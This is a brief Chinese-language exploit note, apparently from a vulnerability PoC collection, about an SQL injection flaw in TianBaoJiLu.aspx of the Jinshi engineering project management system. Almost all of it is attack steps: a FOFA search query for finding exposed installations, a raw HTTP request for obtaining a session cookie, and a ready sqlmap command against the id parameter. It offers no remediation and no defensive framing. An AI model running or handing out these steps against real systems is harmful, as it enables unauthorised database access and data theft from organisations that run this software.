 ## 金石工程项目管理系统TianBaoJiLu.aspx存在SQL注入漏洞

## fofa
```
body="金石工程项目管理系统"
```

## 先获取cookie(响应包Set-Cookie)
```
GET / HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
```

### sqlmap跑注入
```
sqlmap -u "http://ip/query/shigongjihuajindu/TianBaoJiLu.aspx?id=1" --batch --cookie 'ASP.NET_SessionId=pcqx2zs4gsnqprd5cvhtodmk'
```
